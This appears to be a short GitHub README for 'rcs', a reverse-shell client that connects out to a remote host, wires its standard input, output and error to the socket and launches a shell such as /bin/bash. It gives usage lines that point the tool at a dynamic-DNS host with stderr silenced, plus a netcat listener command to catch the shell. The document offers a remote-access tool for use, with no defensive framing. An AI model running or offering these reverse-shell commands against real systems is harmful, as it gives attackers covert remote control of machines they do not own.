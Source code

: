 # rcs
Remote Client Shell

Process ('rcs') starts a conection. If any server responses, the client duplicate STDIN_FILENO, STDOUT_FILENO, and STDERR_FILENO and execve() a new process specified at 'rcs' parameters (maybe '/bin/bash').<br>
'rcs' connection request is able to retried (parameter) and sleep (parameter) at each connect() fails, waiting the server goes listenning.
 
<pre>
Usage: $ ./rcs <IP> <PORT> <SHELL> <N_RETRY_CONNECT> <RETRY_SECONDS>
  
$ ./rcs sample.noip.com 9988 '/bin/bash' 10 5 2>/dev/null
 
Remote (netcat) usage: nc -nvlp <PORT> 
  
$ nc -nvlp 9988
</pre>
